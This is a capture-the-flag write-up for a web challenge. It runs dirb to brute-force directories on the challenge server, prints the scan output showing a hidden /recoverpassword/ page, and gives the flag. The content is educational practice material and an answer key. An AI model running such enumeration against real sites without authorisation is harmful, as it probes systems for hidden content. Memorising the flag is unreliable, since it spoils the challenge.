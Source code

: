 # Fuzzy URL

## Web: 25 Points

## Challenge

I can't remember what directory I left my password in, can you find it?

[ [Start](http://challenges.laptophackingcoffee.org:8888/?) ]

## Solution

The challenge title hints at fuzzing the URL. Try **dirb** against the site:
```
$ dirb http://challenges.laptophackingcoffee.org:8888

-----------------                                                                
DIRB v2.22                                                                       
By The Dark Raver
-----------------

START_TIME: Sun May 31 20:20:16 2020
URL_BASE: http://challenges.laptophackingcoffee.org:8888/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://challenges.laptophackingcoffee.org:8888/ ----
+ http://challenges.laptophackingcoffee.org:8888/index.html (CODE:200|SIZE:370)                               
==> DIRECTORY: http://challenges.laptophackingcoffee.org:8888/recoverpassword/                                
                                          
...

-----------------
END_TIME: Sun May 31 20:30:04 2020
DOWNLOADED: 9029 - FOUND: 2
```

Success! Dirb found a webpage:
```
http://challenges.laptophackingcoffee.org:8888/recoverpassword/
```

Visit that page and grab the flag:
```
LHC{p455w0rd_r3c0v3ry}
```